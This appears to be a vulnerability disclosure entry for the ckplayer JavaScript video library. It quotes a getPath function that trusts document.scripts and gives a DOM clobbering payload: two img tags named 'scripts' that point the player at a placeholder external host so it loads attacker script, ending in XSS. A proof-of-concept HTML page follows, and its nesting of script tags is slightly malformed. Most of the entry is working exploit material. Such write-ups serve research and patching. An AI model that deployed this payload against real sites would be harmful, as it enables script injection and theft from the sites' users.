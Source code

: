 ## ckplayer

### Meta

+ Library: ckplayer
+ Stars: 1.1K
+ Version: latest
+ Payload: ```<img name="scripts" src="https://xxx.xxx.xxx/js/"><img name="scripts" src="https://xxx.xxx.xxx/js/">```
+ Impact: XSS
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk


### Library

URL: 
+ `https://gitee.com/niandeng/ckplayer`


### Vulnerable Code Snippet

```javascript
function getPath(siz) {
  var scriptList = document.scripts,
    thisPath = scriptList[scriptList.length - 1].src;
  for (var i = 0; i < scriptList.length; i++) {
    var scriptName = scriptList[i].getAttribute('name') || scriptList[i].getAttribute('data-name');
    var src = scriptList[i].src.slice(scriptList[i].src.lastIndexOf('/') + 1, scriptList[i].src.lastIndexOf('.'));
    if ((scriptName && (scriptName == 'ckplayer' || scriptName == 'ckplayer.min')) || (scriptList[i].src && (src == 'ckplayer' || src == 'ckplayer.min'))) {
      thisPath = scriptList[i].src;
      break;
    }
  }
  var path=thisPath.substring(0, thisPath.lastIndexOf('/js/') + 1);
  if(!isUndefined(siz)){
    path+=siz+'/';
  }
  return path;
}
```

### PoC
```html

<!--Library-->
<script>
<link type="text/css" rel="stylesheet" href="ckplayer/css/ckplayer.css" />
<script type="text/javascript" src="ckplayer/js/ckplayer.js" charset="UTF-8"></script>
<div class="video" style="width: 600px;height: 400px;">播放器容器</div>
<script type="text/javascript">
    var videoObject = {
        language: 'en',
        container: '.video',
        video: 'https://fake-server/no.mp4'
    };
    var player = new ckplayer(videoObject);
</script>
</script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="https://xxx.xxx.xxx/js/">
<img name="scripts" src="https://xxx.xxx.xxx/js/">
<!--Payload-->
```